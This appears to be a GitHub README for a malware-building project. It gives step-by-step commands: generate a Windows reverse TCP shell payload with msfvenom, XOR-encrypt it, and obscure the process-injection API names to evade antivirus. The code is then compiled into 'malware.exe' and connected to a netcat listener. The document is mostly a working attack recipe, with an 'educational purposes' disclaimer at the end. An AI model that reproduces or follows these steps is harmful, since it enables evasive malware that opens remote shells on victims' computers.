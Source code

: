 ### Prerequesite
1. [Visual Studio](https://visualstudio.microsoft.com/downloads/)
2. [Python2](https://www.python.org/downloads/)
3. [Metasploit Framework](https://www.metasploit.com/download)

### Initiate
##### Generate Shellcode
Run this command to generate the shellcode via Msfvenom.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4455 -f raw -o shellcode.bin
```

##### Encrypt The Generated Payload 
Run this command to encrypt the generated shellcode.
```sh
python xorencrypt.py shellcode.bin
```

##### All Functions Must Be Encrypted
Make sure every function, like `CreateRemoteThread`, `WriteProcessMemory`, and `VirtualAllocEx` is encrypted. Use Python to do.
```sh
ptyhon
printCiphertext(xor("VirtualAllocEx", "password"))
printCiphertext(xor("WriteProcessMemory", "password"))
printCiphertext(xor("CreateRemoteThread", "password"))
```
>Note: Once those done, put them in the `*.cpp` file, take a look the specific line.

### Execute
1. Run `compiler.bat` to compile all of them, then you will have `malware.exe`
2. Run the listener (such as [Netcat](https://github.com/diegocr/netcat/) tool)
3. Run `malware.exe`

***Everything is strictly for educational purposes!***
